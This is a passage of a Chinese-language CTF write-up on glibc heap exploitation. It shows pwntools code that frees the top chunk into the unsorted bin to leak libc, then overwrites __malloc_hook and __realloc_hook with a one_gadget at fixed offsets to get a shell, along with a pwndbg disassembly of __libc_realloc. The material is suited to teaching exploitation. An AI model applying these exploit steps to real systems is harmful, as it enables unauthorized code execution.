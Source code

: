 可以看到topchunk已经改小了，接下来就是不断申请使得topchunk free到unsorted bin。
## free top chunk
通过不断申请，将top chunk free到unsorted bin，再申请出来，show出libc。
```python
    for i in range(0xd):      
        add(0x100, 'a' * 0x100) #填充
    add(0x28, 'a' * 0x28)
    add(0xd8, 'a' * 0xd8)  # free topchunk
    add(0xc8, 'a' * 8)   # 申请unsorted bin 
    show()          # 泄露libc
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x3c4b78)
```
## 覆盖malloc_hook为onegadget

```python
    one = libc_base + 0x4527a#0x45226 0x4527a 0xf0364 0xf1207
    get_gdb(sh)
    edit(libc_base + 0x3c4b10 -8, p64(one) + p64(libc_base + 0x84710+13))  #edit realloc_hook->one & malloc_hook -> realloc_hook+offest
    add(0x18, 'a' * 0x18)
    sh.interactive()
```
这里需要涉及一个点，onegadget的使用受到条件的限制，当所有的条件都满足不了就需要调整栈帧，使其能够满足条件，这里介绍一个用realloc_hook调整栈帧的方法。
我们都知道onegadget需要为execve('/bin/sh',0,0)提供参数条件,当条件不满足（常见的是第二个参数rsi寄存器）就无法使用，这里的调整栈帧的方法原理将malloc_hook覆盖为__GI___libc_realloc+13（此偏移可以调整），将realloc_hook覆盖为onegadget，当malloc的时候调用malloc_hook（__GI___libc_realloc）可以调整栈空间，之后当再调用realloc_hook的时候触发getshell。此方法能成功的点就在于调用malloc函数，不仅会执行malloc_hook还会接着执行realloc_hook。
```bash
pwndbg> disassemble 0x00007ffff7a91710
Dump of assembler code for function __GI___libc_realloc:
   0x00007ffff7a91710 <+0>:	push   r15
   0x00007ffff7a91712 <+2>:	push   r14
   0x00007ffff7a91714 <+4>:	push   r13
   0x00007ffff7a91716 <+6>:	push   r12
   0x00007ffff7a91718 <+8>:	mov    r12,rsi
   0x00007ffff7a9171b <+11>:	push   rbp
   0x00007ffff7a9171c <+12>:	push   rbx
   0x00007ffff7a9171d <+13>:	mov    rbx,rdi
   0x00007ffff7a91720 <+16>:	sub    rsp,0x38
   0x00007ffff7a91724 <+20>:	mov    rax,QWORD PTR [rip+0x33f8a5]        # __realloc_hook
   0x00007ffff7a9172b <+27>:	mov    rax,QWORD PTR [rax]                 # *__realloc_hook ->onegadget
   0x00007ffff7a9172e <+30>:	test   rax,rax
   0x00007ffff7a91731 <+33>:	jne    0x7ffff7a91958 <__GI___libc_realloc+584> <------

............
   0x00007ffff7a91958 <+584>:	mov    rdx,QWORD PTR [rsp+0x68]
   0x00007ffff7a9195d <+589>:	call   rax                                # call onegadget
   0x00007ffff7a9195f <+591>:	mov    rbp,rax

```